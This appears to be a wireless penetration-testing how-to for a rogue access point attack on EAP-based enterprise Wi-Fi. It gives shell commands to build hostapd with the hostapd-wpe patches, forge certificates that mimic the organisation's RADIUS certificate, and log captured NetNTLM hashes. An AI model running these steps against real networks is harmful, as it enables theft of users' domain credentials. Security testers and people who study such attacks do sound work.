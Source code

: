 ### Roque Access Point - Attack EAP (TLS)
It's hard to check a RADIUS server (Authenticator) certificate. So as long as the organization does not use client certificates, but simple domain authentication (Active Directory for instance), we can try to capture some netntlm hashes.

#### Attack
1. Get the certificate the organization uses. Try to authenticate (with a valid username) and use Wireshark to export the certificate. Just find the certificate in the packets. Export the bytes. This is DER encoding
2. Download hostapd-2.6
```shell
mkdir -p ~/hostapd-attack
cd  ~/hostapd-attack
wget https://w1.fi/releases/hostapd-2.6.tar.gz
tar -vxf hostapd-2.6.tar.gz
``` 
3. Grab the WPE patches and apply
```shell
git clone https://github.com/OpenSecurityResearch/hostapd-wpe.git
cd hostapd-2.6
patch -p1 < ../hostapd-wpe/hostapd-wpe.patch
```
4. Build hostapd
```
cd hostapd
make -j8
```
5. Build the certificate(s)
```
cd ../../hostapd-wpe/certs 

# Edit the required cnf files, to make the certificate look like the original.
ls *.cnf

# After editing
./bootstrap

### If all fails, clean it up!
make clean
make destroycerts
```

6. Modify hostapd-wpe.conf
```shell
cd ../../hostapd-2.6/hostapd/

#Edit the required sections.
grep -E '^ssid=|^channel=|^wpa=|^interface=' hostapd-wpe.conf
```

7. Attack
```shell
sudo ./hostapd-wpe ./hostapd-wpe.conf
```

8. Hashes will be stored in `./hostapd-wpe.log`

### Problems
If you have problems setting up the access point, check the following:
- Does the card support AP mode? `iw list | grep -i 'Supported interface modes' -A 10`
- Is the card being used by network manager? (Try to add `iface WLAN_NAME inet manual` to `/etc/network/interfaces` and restart `sudo systemctl restart NetworkManager `)



